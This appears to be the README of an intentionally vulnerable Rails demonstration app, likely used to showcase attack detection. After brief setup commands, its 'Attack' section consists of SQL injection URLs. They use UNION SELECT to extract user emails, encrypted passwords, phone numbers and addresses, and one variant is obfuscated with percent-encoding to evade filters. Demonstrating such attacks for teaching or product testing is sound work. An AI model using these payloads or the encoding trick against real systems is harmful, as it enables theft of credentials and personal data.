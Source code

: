 # How to use this application


## Setup

This is a regular Rails application, setup it as you would do with any other
application.

If you don't have bundler, install it:

    $ sudo gem install bundler

Once bundler is installed:

    $ bundle
    $ rake db:setup

### Run 

    $ rails s

### Attack

https://disrupt.sqreen.io/characters/1%20UNION%20SELECT%201,email,encrypted_password,4,5,6,7,8,9,10,phone,address,1%20FROM%20users%20LIMIT%201,1


http://localhost:1234/characters/1%20UNION%20SELECT%201,email,encrypted_password,4,5,6,7,8,9,10,phone,address,1%20FROM%20users%20LIMIT%202,1


https://disrupt.sqreen.io/characters/1%20U%4eIO%4e%20SEL%45CT%201%2Cemail%2Cencry%70ted_p%61ssword%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2Cphone%2Caddress%2C1%20FROM%20users%20LI%4dI%54%202%2C1"


http://localhost:3000/characters/1%20UNION%20SELECT%201,email,encrypted_password,4,5,6,7,8,9,10,phone,address,1%20FROM%20users%20LIMIT%202,1
